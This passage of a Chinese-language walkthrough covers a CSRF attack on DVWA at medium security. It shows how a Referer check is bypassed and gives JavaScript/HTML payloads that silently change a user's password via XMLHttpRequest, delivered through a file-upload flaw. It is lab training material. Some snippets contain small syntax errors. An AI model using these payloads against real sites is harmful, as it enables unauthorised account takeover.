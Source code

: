 ### 什么是网络杀伤链，简要介绍黑客如何计划他们的攻击。我会试着走过去…

medium.com](https://medium.com/codex/cyber-kill-chain-how-hackers-target-and-take-down-organizations-stackzero-6b6bcd8a0eb2) 

# 步骤 2:中等安全级别的 DVWA 上的 CSRF:

我们准备增加一点难度，所以进入安全设置，设置等级为中等。

通过尝试打开我们刚刚在低级别创建的恶意链接，它不起作用，密码保持不变。

**为什么？**
开发者增加了一个额外的安全层，在这种情况下，应用程序检查 Referer(如果你知道它是什么，这里是[维基百科页面](https://en.wikipedia.org/wiki/HTTP_referer))。
关于 Referer 字段，我们需要知道的是，它是一个可选的头字段，指定 HTTP 请求来自哪个字段。在这种情况下，应用程序检查请求是否来自同一个域。

总的来说，这是一个很好的缓解措施，但是**这不足以阻止我们！**
拦截请求并使用 [Burp Suite](https://portswigger.net/burp) 更改 Referer 在真实情况下是不可能的，因为这应该在受害机器上完成。

我们的第一个想法是创建一个包含脚本的 HTML，通过使用 [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) 并将 Referer 设置为目标 URL，向易受攻击的服务器发送请求，如下所示:

```
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://10.10.131.218/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#'
;
HttpRequest.open("GET", url);
HttpRequest.send();
```

这似乎是一个好主意，但它不能做到，因为大多数浏览器不允许改变这个标题。

此时我们想要的是直接从目标服务器发送请求，为此我们有一个非常简单的选项。
正如我在[的介绍文章中告诉你的，这个地址](https://www.stackzero.net/csrf-introduction/)我们可以链接一个 XSS 和一个 CSRF 漏洞，所以我们可以将这个有效载荷打包在一个反射的 XSS 中。

然而，在本演练中，我想向您展示另一种更简单的方法，可以让我们只关注 CSRF。
我们将利用一个文件上传漏洞将我们的有效载荷发送到服务器，然后我们可以简单地发送恶意链接。

所以第一步是再次将 DVWA 的安全性设置为低(这不是一个关于文件上传的教程，所以我们不想管理它的安全检查)。

之后，我们可以创建一个 HTML 文件，我将把它命名为" *csrf_js.html* "，它将包含有效负载。

这是文件内容:

```
<html>
    <head>

    </head>
    <body onload="change_password()">
        <script>
            function change_password(){
            const request = new XMLHttpRequest();
            const url = 'http://10.10.131.218/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change#'

            request.open("GET", url);

            request.send();

            </script>
    </body>
</html>
```
